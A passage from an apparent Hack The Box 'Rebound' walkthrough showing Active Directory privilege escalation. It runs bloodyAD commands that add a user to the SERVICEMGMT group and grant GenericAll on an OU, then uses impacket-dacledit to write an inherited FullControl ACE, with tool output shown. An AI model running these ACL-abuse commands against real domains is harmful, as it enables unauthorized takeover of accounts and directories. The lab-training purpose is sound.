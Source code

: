 ![2](/assets/img/favicons/rebound-htb/5.png)
![2](/assets/img/favicons/rebound-htb/6.png)

#### Step 1: Adding `aoorend` to `SERVICEMGMT`

```bash
┌──(kali㉿kali)-[~/HTB/Rebound]
└─$ bloodyAD --host 'dc01.rebound.htb' -d 'rebound.htb' -u 'oorend' -p '[REDACTED]' add groupMember 'SERVICEMGMT' 'oorend'
[+] oorend added to SERVICEMGMT
```

- Verify:

```bash
┌──(kali㉿kali)-[~/HTB/Rebound]
└─$ bloodyAD --host 'dc01.rebound.htb' -d 'rebound.htb' -u 'oorend' -p '[REDACTED]' get object 'SERVICEMGMT' --attr member 

distinguishedName: CN=ServiceMgmt,CN=Users,DC=rebound,DC=htb
member: CN=oorend,CN=Users,DC=rebound,DC=htb; CN=fflock,CN=Users,DC=rebound,DC=htb; CN=ppaul,CN=Users,DC=rebound,DC=htb
```

#### Step 2: Taking Control Over `SERVICE USERS`

```bash
┌──(kali㉿kali)-[~/HTB/Rebound]
└─$ bloodyAD --host 'dc01.rebound.htb' -d 'rebound.htb' -u 'oorend' -p '[REDACTED]' add genericAll 'OU=SERVICE USERS,DC=REBOUND,DC=HTB' 'oorend'
[+] oorend has now GenericAll on OU=SERVICE USERS,DC=REBOUND,DC=HTB
```

#### Step 3: Enable Inheritance + FullControl on OU
```bash
┌──(kali㉿kali)-[~/HTB/Rebound]
└─$ impacket-dacledit -action write -rights FullControl -inheritance -principal 'oorend' -target-dn 'OU=SERVICE USERS,DC=REBOUND,DC=HTB' 'rebound.htb/oorend:[REDACTED]' -use-ldaps
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20251019-163831.bak
[*] DACL modified successfully!
```

